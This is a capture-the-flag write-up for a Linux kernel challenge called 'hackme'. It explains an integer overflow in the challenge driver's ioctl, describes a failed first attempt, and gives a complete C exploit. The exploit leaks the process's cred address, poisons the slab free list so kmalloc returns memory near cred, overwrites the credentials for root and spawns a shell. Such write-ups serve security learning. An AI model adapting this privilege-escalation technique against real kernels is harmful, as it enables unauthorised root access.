 ## hackme

This is a kernel exploitation challenge that requires us to get root to read the flag, and I failed to solve it  let's see.

An `ioctl` is implemented in `hackme.ko`. There are 4 commands: to create memory chunk using `kmalloc`, to delete memory chunk using `kfree`, to read memory chunk using `copy_to_user` and to write the memory chunk using `copy_from_user`. When reading and writing the memory chunks, `offset` and `size` can be specified to only read or write part of the memory chunk. Here is where the vulnerability comes from: there is a integer overflow.

```c
v9 = v19.idx;
v10 = pool[v9].buf;
v11 = &pool[v9];
if ( v10 && v19.off + v19.size <= v11->max_size )
{
  //when v19.off == -0x200L and v19.size == 0x200L
  //we can have a underflow
  //also works for read operation
  copy_from_user(&v10[v19.off], v19.usrbuf, v19.size);
  return 0LL;
}
```

### First Attempt

I initially tried to use [this method](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/kernel/kernel_uaf/). In one word, `kfree` a chunk with same size as `struct cred`, and then `fork`, so that the `struct cred` of new process will be the same one as the chunk just being `kfree`ed. Then rewrite this `struct cred` by underflow. However, this does not seem work. Since the `struct cred` of new process is not the same one as the one just being `kfree`ed. I don't know the reason. Maybe it is because the kernel version since that one is `4.4.72` and this one is `4.20.13`, or it is because the `flag` argument of `kmalloc` is different.

### Second Attempt

Then I tried to leak the `cred` first, using `prctl(PR_SET_NAME, comm)`. The detail is [here](https://poppopret.org/2015/11/16/csaw-ctf-2015-kernel-exploitation-challenge/). This works if I read `0x100000L` bytes. Also, we can also leak the address of our memory chunks by reading `next` pointer of freed chunk. After leaking addresses, I found `cred` is very far from the memory chunks, so we cannot rewrite it directly because that will cause kernel panic. 

The correct approach is to rewrite `next` pointer of the free list, a bit similar to `tcache poisoning` in `ptmalloc` exploitation. We can let `kmalloc` return an address near the `cred`, so we can rewrite `cred`. However, we don't want the free list to be corrupted since that will cause kernel panic, so we need to find a memory region whose first 8 bytes are all 0, fortunately `QWORD PTR [address of cred - 0x10] == NULL`.

Final exploit

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/wait.h>
#include <sys/prctl.h>
#include <memory.h>
#include <string.h>
#include <assert.h>

char tab[] = {'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H',
'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P',
'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X',
'Y', 'Z', 'a', 'b', 'c', 'd', 'e', 'f',
'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n',
'o', 'p', 'q', 'r', 's', 't', 'u', 'v',
'w', 'x', 'y', 'z', '0', '1', '2', '3',
'4', '5', '6', '7', '8', '9', '+', '/'};


struct data
{
	unsigned int idx;
	char *usrbuf;
	size_t size;
	size_t off;
};
#define BUF_SIZE 0x100000L
struct data param = {0};
char buffer[BUF_SIZE] = {0};
int fd;

void init()
{
	fd = open("/dev/hackme",0);
	if (fd < 0)
		exit(-1);
	param.usrbuf = buffer;
}

void error_exit(char* msg)
{
	puts(msg);
	exit(-1);
}

void kmalloc(unsigned int idx, size_t size, char sig)
{
	memset(buffer, sig, sizeof(buffer));
	param.size = size;
	param.idx = idx;
	int ret = ioctl(fd, 0x30000, &param);
	if (ret < 0) error_exit("Error: kmalloc");
}

void write_memory(unsigned int idx, size_t size, size_t off)
{
	param.size = size;
	param.idx = idx;
	param.off = off;
	int ret = ioctl(fd, 0x30002, &param);
	if (ret < 0) error_exit("Error: write_memory");
}

void read_memory(unsigned int idx, size_t size, size_t off)
{
	param.size = size;
	param.idx = idx;
	param.off = off;
	int ret = ioctl(fd, 0x30003, &param);
	if (ret < 0) error_exit("Error: read_memory");
}

void kfree(unsigned int idx)
{
	param.idx = idx;
	int ret = ioctl(fd, 0x30001, &param);
	if (ret < 0) error_exit("Error: read_memory");
}

void printhex(char* pbuf, size_t size)
{
	unsigned char* buf = (unsigned char*)pbuf;
	for (size_t i = 0; i < size; ++i)
	{
		printf("%.2x", buf[i]);
	}
	printf("\n");
}

char comm[] = "201920192019";
#define CHUNK_SIZE 0x40L
int main(int argc, char const *argv[])
{
	uintptr_t cred;
	//if (argc == 1) exit(-1);
	prctl(PR_SET_NAME, comm);
	//size_t credsize = strtoul(argv[1], 0, 16);
	init();

	for (int i = 0; i < 64; ++i)
	{
		kmalloc(i, CHUNK_SIZE, tab[i]);
	}
	read_memory(63, BUF_SIZE, -BUF_SIZE);
	char* ret = (char*)memmem(buffer, sizeof(buffer), comm, sizeof(comm) - 1);
	if (ret)
	{
		cred = *(uintptr_t*)(ret - 8);
		assert(*(uintptr_t*)(ret - 0x10) == cred);

		//write(1, buffer, BUF_SIZE);
		printf("%p %p\n", (void*)(ret - buffer), (void*)cred);
		puts(ret);
	}

	const size_t LEAK_SIZE = 0x400L;

	puts("Before: ");
	kfree(62);

	kfree(61);
	read_memory(63, LEAK_SIZE, -LEAK_SIZE);
	//printhex(buffer, LEAK_SIZE);

	uintptr_t addr_62 = *(uintptr_t*)(buffer + LEAK_SIZE - CHUNK_SIZE*2);
	printf("%p\n", (void*)addr_62);

	*(uintptr_t*)buffer = cred - 0x10;
	write_memory(63, CHUNK_SIZE*2, -CHUNK_SIZE*2);


	memset(buffer, 0, CHUNK_SIZE);
	kmalloc(61, CHUNK_SIZE, '\x00'); //consume a chunk
	kmalloc(62, CHUNK_SIZE, '\x00'); //rewrite cred here

	system("/bin/sh");
    // execve will cause kernel panic, no idea why
    // and the exploit works for 80% probability

	return 0;
}
```



